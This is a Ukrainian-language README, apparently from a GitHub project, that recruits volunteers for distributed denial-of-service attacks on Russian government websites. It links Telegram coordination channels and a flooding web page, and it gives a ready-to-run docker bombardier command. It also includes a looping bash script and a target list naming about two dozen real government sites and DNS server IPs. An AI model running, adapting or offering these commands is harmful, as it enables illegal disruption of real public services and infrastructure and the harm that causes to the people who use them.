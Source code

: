 # Варіант 1 (для власників мобільних телефонів також)
Просто відкрийте і залиште сайт відкритим - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/)  
**Впевніться, що у вас достатньо заряду акумулятора та є доступ до зарядки**  
За можливості увімкніть VPN  

# Канали для новин та координації
- [https://t.me/+97Y45he5lOI2ZTky](https://t.me/+97Y45he5lOI2ZTky)
- [https://t.me/ddosRussians](https://t.me/ddosRussians)
- [https://t.me/itguildukraine](https://t.me/itguildukraine)

# Варіант 2
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [F-Secure](https://www.f-secure.com/en/home/login) - РЕКОМЕНДОВАНО
- [ProtonVPN](https://protonvpn.com/download)
- [Windscribe](https://windscribe.com/download)
- [ClearVPN](https://my.clearvpn.com/enter)
- [Urban VPN](https://www.urban-vpn.com/)
4. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт)  
**Ви можете відкрити декілька вікон терміналу**  
5. ДОДАТКОВО
Можете створити файл `ddos.sh` та контентом:
```
#!/bin/bash -x
DESTS=( "http://duma.gov.ru/" "http://president-sovet.ru/" "https://sovetnational.ru/" "https://www.gosuslugi.ru/ru/" "https://zakupki.gov.ru/epz/main/public/home.html" "https://gossluzhba.gov.ru/" "http://defence.council.gov.ru/" "http://budget.council.gov.ru/" "http://www.kremlin.ru/" "https://government.ru/" "http://www.scrf.gov.ru/" "http://www.ksrf.ru/ru/Pages/default.aspx" "http://www.vsrf.ru/" "http://premier.gov.ru/events/" "https://www.mchs.gov.ru/" "https://minjust.gov.ru/ru/" "http://www.fsb.ru/" "https://rosguard.gov.ru/" "https://customs.gov.ru/" "https://udprf.ru/" "http://favt.gov.ru/" "http://194.67.2.109:53/UDP" "http://194.67.7.1:53/UDP" "http://194.54.14.187:53/UDP" "http://194.54.14.186:53/UDP" )
TIME="180s"
while TRUE
do
   for DEST in ${DESTS[@]}
   do
       docker run -ti --rm alpine/bombardier -c 1000 -d $TIME -l $DEST
   done
done
```
та запустити з допомогою команди `chmod +x ddos.sh && sh ddos.sh` в терміналі

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

[Contribute](https://github.com/domanskyi/xsquad)

